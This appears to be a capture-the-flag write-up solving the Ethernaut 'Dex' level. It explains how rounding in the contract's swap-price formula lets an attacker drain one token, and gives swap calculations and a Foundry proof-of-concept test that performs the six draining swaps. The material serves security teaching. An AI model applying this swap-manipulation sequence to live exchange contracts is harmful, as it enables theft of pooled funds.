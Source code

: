 # Level 22 - Dex

## Objectives

- Drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

## Contract Overview

`Dex` is a contract or decentralized exchange platform that deals with token swapping and exchange. The Dex contract has a balance of 100 tokens each.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Dex_slither.png)

## Finding the weak spots

The weak spot of the contract is function `getSwapPrice()` that is prone to rounding error and price manipulation attack.

```solidity
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

This function is taking addresses for both the tokens and the amount of from tokens to be swapped and calculates the amount of to tokens. The following formula is used:
`The number of token2 to be returned = (amount of token1 to be swapped * token2 balance of the contract)/token1 balance of the contract.`

This is the vulnerable function. We will be exploiting the fact that there are no floating points in solidity which means whenever the function will do a division, the result will be a fraction. Since there are no decimals and floating points, the token amount will be rounded off towards zero. Therefore, by making continuous token swaps from token1 to token2 and back, we can decrease the total balance of one of the tokens in the contract to zero. The precision loss will automatically do the job for us.

## Potential attack scenario (hypothesis)

Attacker has to swap all token1 for token2. Then swap all token2 for token1. And repeat this process until he drains all token1.

## Plan of the attack and calculations

1. Initially Dex has a balance of 100 for both the tokens and the attacker has a balance of 10 each.
2. The attacker makes a token swap from token1 to token2 for 10 tokens. Dex will have 110 token1 and 90 token2 whereas the user will have 0 token1 and 20 token2.
3. Now, when the user swaps 20 token2 for token1, the formula will return the following:
   `Number of token1 tokens returned = (20 * 110)/90 = 24.44`
   This value will be rounded off to 24. This means Dex will now have 86 token1, and 110 token2 and attacker will have 24 token1 and 0 token2.
4. On each token swap, we are left with more tokens than held previously.
5. Once reached a value of 65 tokens for either token1 or token2, attacker can do another swap to drain the balance of one of the tokens from Dex. `((65\*110)/45 = 158)`

| Dex | User | | |
|token1 | token2 | token1 | token2 |
|-------|---|---|---|
|100 | 100 | 10 | 10|
|110 | 90 | 0 | 20|
|86 | 110 | 24 | 0|
|110 | 80 | 0 | 30|
|69 | 110 | 41 | 0|
|110 | 45 | 0 | 65|
|0 | 90 | 110 | 20|

This means that in the final step if attacker needs to drain 110 token1, the amount of token2 to be swapped is `(65 * 110)/158 = 45`. This will bring the token1 balance of the Dex to 0.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/22-Dex.t.sol))

```solidity
    // Approve the dex to manage all of our token
        token1.approve(address(level), 2 ** 256 - 1);
        token2.approve(address(level), 2 ** 256 - 1);

        emit log_named_uint(
            "Token1 balance of Dex before attack is",
            level.balanceOf(address(token1), address(level))
        );

        emit log_named_uint(
            "Token2 balance of Dex before attack is",
            level.balanceOf(address(token2), address(level))
        );

        level.swap(address(token1), address(token2), 10);
        level.swap(address(token2), address(token1), 20);
        level.swap(address(token1), address(token2), 24);
        level.swap(address(token2), address(token1), 30);
        level.swap(address(token1), address(token2), 41);
        level.swap(address(token2), address(token1), 45);

        assertEq(
            token1.balanceOf(address(level)) == 0 ||
                token2.balanceOf(address(level)) == 0,
            true
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        emit log_named_uint(
            "Token1 balance of Dex after attack is",
            level.balanceOf(address(token1), address(level))
        );

        emit log_named_uint(
            "Token2 balance of Dex after attack is",
            level.balanceOf(address(token2), address(level))
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Dex.png)

## Recommendations

When doing calculations related to any sensitive asset such as tokens, careful attention should be paid to precision since there are no floating points in solidity, precision is lost as numbers are rounded off leading to exploits.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-20-solution-shop)
- [Blog cmichel](https://cmichel.io/ethernaut-solutions/)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
